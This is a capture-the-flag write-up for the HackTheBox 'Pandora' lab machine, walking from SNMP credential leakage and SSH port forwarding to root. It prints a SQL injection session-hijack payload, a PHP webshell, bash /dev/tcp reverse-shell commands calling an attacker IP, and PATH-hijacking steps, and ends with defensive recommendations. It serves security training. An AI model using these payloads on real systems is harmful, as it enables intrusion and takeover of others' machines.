


# HTB - Pandora

**IP Address:** `10.10.11.136`  
**OS:** Ubuntu (Focal)  
**Difficulty:** Easy  
**Tags:** #SNMP, #SSH, #PortForwarding, #SQLi, #ReverseShell, #PathHijacking, #PrivilegeEscalation  

---
## Synopsis

Pandora is an easy Linux machine that combines both network service enumeration and web exploitation.  
Initial access is obtained via **SNMP enumeration** leaking SSH credentials.  
From there, a **Local Port Forwarding** reveals an internal **Pandora Console** vulnerable to SQL injection, which allows session hijacking and remote code execution via file upload.  
Privilege escalation is achieved by abusing a misconfigured binary (`pandora_backup`) vulnerable to **path hijacking**, leading to full root compromise.

---
## Skills Required

- Basic knowledge of SNMP enumeration  
- Familiarity with web fuzzing and SQL injection  
- Understanding of Linux privilege escalation vectors (SUID, PATH hijacking)  

## Skills Learned

- Extracting credentials from SNMP service  
- Using SSH Local Port Forwarding to access internal services  
- Exploiting SQL injection to hijack sessions  
- Abusing relative path execution for privilege escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

```bash
ping -c 1 10.10.11.136
```


The host responds, confirming it is alive.

---
### 1.2 Port Scanning

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.136 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format


Extract open ports:

```bash
extractPorts allPorts
```


---
### 1.3 Targeted Scan

```bash
nmap -p22,80 -sC -sV 10.10.11.136 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```


| Port | Service | Version/Description |
|------|---------|---------------------|
| 22   | SSH     | OpenSSH             |
| 80   | HTTP    | Apache / Ubuntu     |

---
## 2. Web Enumeration

Check Ubuntu release via **launchpad**:


Ubuntu version: **Focal**.

Fingerprint web technologies:

```bash
whatweb http://10.10.11.136
```


Interesting findings:
- Domain → `panda.htb`
- Emails → `contact@panda.htb`, `support@panda.htb`, `example@yourmail.com`

Browsing main page:


Contact form confirms valid emails:


### 2.1 Directory Enumeration

```bash
gobuster dir -u http://panda.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```


Results:
- `/assets/` → Directory listing but nothing useful  
- `/server-status/` → Forbidden  

  


Blocked here, we pivot to **UDP enumeration**.

---
## 3. Service Enumeration

### 3.1 UDP Scan

```bash
sudo nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.136
```


Port `161/udp` open → **SNMP**.

Deep scan:

```bash
sudo nmap -sUCV -p161 10.10.11.136 -oN UDPScan
```


Interesting findings:
- UID 835 → User **Debian**
- UID 1100 → Credentials: `daniel // HotelBabylon23`


---
## 4. Foothold

SSH access with leaked credentials:


We land as **daniel** but user flag belongs to **matt**:


### 4.1 Privilege Enumeration

```bash
find -perm -4000 2>/dev/null
```


Suspicious binary: `pandora_backup`.

Exploring `/var/www/html/` reveals `pandora_console`:

  


Configuration file discloses hidden domain: **pandora.panda.htb** (port 80).

Validate via cURL:

```bash
curl localhost
```


### 4.2 Local Port Forwarding

At this stage, we know that **Pandora Console is only accessible internally**, because attempting to browse directly from our machine fails. However, since we already have an SSH session on the target as `daniel`, we can leverage **Local Port Forwarding (LPF)** to tunnel the internal port `80` of the victim machine to our own machine:

```bash
ssh daniel@10.10.11.136 -L 80:127.0.0.1:80
```

- `-L 80:127.0.0.1:80` tells SSH to bind our local port **80** to the remote service listening on **127.0.0.1:80** inside the victim.

- This means that **any request to http://127.0.0.1:80 on our attacking machine will be transparently forwarded to the target’s Pandora Console service**.

- In other words, the remote port 80 is **replicated locally**, allowing us to browse the internal-only web application as if it were running on our own host.

Now accessible at `127.0.0.1:80`:


---
## 5. Exploitation

Pandora Console v7.0NG.742 detected. Vulnerable to **SQL injection**:  
[Exploit reference](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

SQLi to hijack admin session:

```bash
include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```


Cookie updated, if we refresh the website,  the admin login is successful:


### 5.1 File Upload for RCE

Access File Manager, upload PHP webshell:

```php
<?php
 echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```


Uploaded successfully:


Execute commands via browser:


Reverse shell setup:

```bash
nc -nlvp 443
bash -c "bash - >& /dev/tcp/10.10.14.10/443 0>&1"
```

Final payload (URL-encoded):

```bash
http://127.0.0.1/pandora_console/images/0.Pwn3d/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.10/443 0>%261"
```



✅ **User flag obtained**  


---
## 6. Privilege Escalation

### 6.1 SSH Persistence

Generate SSH keys:

```bash
ssh-keygen
```

  


Connect as matt:

```bash
ssh -i id_rsa matt@10.10.11.136
```

### 6.2 Exploiting `pandora_backup`

Check binary:

```bash
ls -l ./usr/bin/pandora_backup
```


Trace execution:

```bash
ltrace ./usr/bin/pandora_backup
```


Finds `tar` called with **relative path** → vulnerable to **path hijacking**.

Exploit:

```bash
cd /tmp/
touch tar
chmod +x tar
echo "/usr/bin/sh" > tar
export PATH=/tmp:$PATH
echo $PATH
```

  


🏁 **Root flag obtained**  


---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **SNMP Enumeration** → Extracted credentials (`daniel:HotelBabylon23`).  
2. **SSH Access** → Logged in as daniel.  
3. **Local Port Forwarding** → Exposed internal Pandora Console.  
4. **SQL Injection** → Hijacked admin session.  
5. **File Upload RCE** → Achieved reverse shell as matt.  
6. **Path Hijacking** → Exploited `pandora_backup` to escalate to root.  

---
## Defensive Recommendations

- Disable or restrict **SNMP** service, enforce strong community strings.  
- Implement strict input sanitization to prevent **SQL injection**.  
- Restrict file upload functionality and validate file types securely.  
- Use **absolute paths** in system binaries to prevent PATH hijacking.  
- Regularly audit SUID binaries and remove unnecessary privileges.
